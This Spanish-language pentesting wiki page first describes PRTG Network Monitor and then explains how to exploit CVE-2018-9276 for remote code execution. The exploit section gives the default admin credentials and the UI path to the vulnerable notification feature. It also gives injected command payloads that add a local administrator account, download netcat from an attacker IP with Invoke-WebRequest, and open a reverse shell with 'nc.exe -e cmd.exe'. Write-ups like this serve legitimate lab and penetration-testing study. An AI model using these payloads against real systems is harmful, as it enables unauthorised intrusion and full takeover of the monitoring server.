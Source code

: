 ```yaml
---
description: Explotar PRTG Network Monitor para obtener acceso remoto al servidor (RCE).
---
```


# PRTG NETWORK MONITOR (RCE)

## INFORMACIÓN BÁSICA

{% embed url="https://skyframebolivia.com/blog/2019/10/14/conozca-prtg-network-monitor" %}
Fuente
{% endembed %}

La herramienta **PRTG Network Monitor** es una solución de monitorización “**Todo en Uno**” y libre de agentes (**no necesita instalar ningún agente externo en el equipo a monitorizar**).

Combina tecnologías estándares de monitoreo (**SNMP, WMI, NetFlow, JFlow**, entre otros) con una completa serie de características fáciles de usar.

A través de una interfaz intuitiva y tecnología de última generación, se adecua como una solución ideal para redes de cualquier tamaño, desde empresas pequeñas hasta grandes corporaciones,

Funciona con una sola licencia, sin costos ocultos, sin complementos y sin complejidad para el usuario final.

**PRTG** asegura la disponibilidad de los componentes de red, mide su tráfico y su uso, reduce costos evitando interrupciones, optimizando las conexiones, ahorrando tiempo y controlando los Acuerdos de Nivel de Servicio (SLAs).

### Capacidades

Con PRTG Network Monitor usted podrá monitorizar:

* El tráfico en la red interna y hacia/desde Internet.
* Verifique su ancho de banda contratado ya sea en soluciones de Internet como enlaces dedicados punto a punto.
* El rendimiento y las características (estado de puertos, trafico, estado de VPN, tiempos de respuesta, QoS, autenticación, etc) de sus equipos de red (switches, routers, Access points, firewalls, módems, etc.)
* Las características y el rendimiento de sus servidores físicos (Discos, arreglos RAID, estado del procesador, memoria RAM, fuentes de poder, ventiladores, etc.)
* El rendimiento y las características de funcionamiento de sus S.O. de servidores (GNU/Linux, Windows Server, etc.)
* El funcionamiento de sus aplicaciones y páginas web (servidores web (IIS/Apache), ingresos, autenticaciones, tiempos de respuesta, chequeos de contenido, etc.)
* El rendimiento de sus bases de datos (Microsoft SQL, PostgreSQL, Oracle, MySQL, MongoDB, supervisión por conexiones ADO, conexiones, sesiones y otros.)
* Servidores de archivo (archipos, directorios, cuotas, sistemas NetApp, servidores FTP, etc.)
* Servidores de correo (Exchange, SMTP, IMAP, POP3, etc).
* Sistemas de virtualización (Hyper-V, VMware, Citrix Xen Server, Virtuozzo, Amazon CloudWatch, etc.)
* Servidores de autenticación (LDAP, RADIUS, Active Directory).
* Cualquier dispositivo, aplicación, servicio o servidor compatible con la tecnología de SNMP (v1, v2, v2c, v3), WMI, Netflow, SSH, JSON, entre otros.

### ¿Que es un sensor?

Un sensor es una característica monitorizada (ancho de banda, disco, memoria, etc.) de un dispositivo (servidor, equipo de red, aplicación web, etc.)

Para monitorizar un servidor físico y conocer la información de uso de disco, memoria RAM y disponibilidad necesitamos utilizar 3 sensores:

* Uso de disco
* Uso de memoria
* Sensor de ping (Disponibilidad)

## RCE

{% embed url="https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2018-9276" %}
Fuente
{% endembed %}

{% embed url="https://www.codewatch.org/blog?p=453" %}
Fuente
{% endembed %}

Los servicios de monitorización de red son especialmente sensibles a las vulnerabilidades de ejecución de código remota (RCE) debido a que contienen características instaladas que permiten la ejecución de código como parte de la respuesta ante determinadas notificaciones.

En este caso, PRTG Network Monitor no permite ejecutar cualquier tipo de script sino que depura el código introducido y lo limita a un archivo tipo batch (.bat) o a uno tipo Powershell (.PS1).

Sin embargo, en las versiones < 18.2.39 esta depuración estaba mal implementada en los archivos .PS1 permitiendo ejecución de código.

De esta manera surge el [**CVE-2018-9276**](https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2018-9276).

### Cómo explotarlo

#### Autenticación

Lo primero es autenticarse pues debemos tener acceso al servicio.

Las credenciales por defecto son **prtgadmin:prtgadmin**

#### Ejecución

Para explotar la vulnerabilidad tenemos que navegar hasta la herramienta de creación de notificaciones que podemos encontrar en el lado derecho de la pantalla (el símbolo +) al navegar hasta:

`setup / account settings / notifications`

![setup / account settings / notifications](../../.gitbook/assets/prtg1.png)

Después de esto seleccionamos **"execute Program"** y seleccionamos en el desplegable de tipo "**Demo exe notification - outfile.PS1"**

![Execute Program / Demo exe notification - outfile.ps1](../../.gitbook/assets/prtg2.jpg)

Por último debemos editar los **"parámetros"** de la notificación con el código que queremos ejecutar:

!["parametros"](../../.gitbook/assets/prtg3.png)

Una vez hecho esto le damos a "Save" y en la pantalla de notificaciones seleccionamos la nueva notificación que hemos creado y le damos a la campanita para realizar una prueba de la misma. Esto debería hacer que nuestro código se ejecutara.

### Obtener acceso

Para obtener acceso al sistema mediante una shell podemos utilizar varios procesos:

#### Crear un nuevo usuario administrador

&#x20;Puesto que el servicio se ejecuta por defecto como "Local System" podemos crear administradores locales sin problema.&#x20;

Para ello utilizamos el siguiente código:

`test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add`

{% hint style="warning" %}
Es importante tener una manera de acceder al sistema si se va a utilizar éste método. Vía ssh o psexec vía SMB.
{% endhint %}

#### Reverse shell

Si no tenemos otra forma de acceder tambien podemos desargar en la víctima el programa "netcat" y utilizarlo para establecer una reverse shell con nuestra máquina atacante:

```
test.txt; Invoke-WebRequest http://10.10.15.200/nc.exe -OutFile c:\Users\Public\Downloads\nc.exe
```

```
test.txt; c:\Users\Public\Downloads\nc.exe 10.10.15.200 1234 -e cmd.exe
```
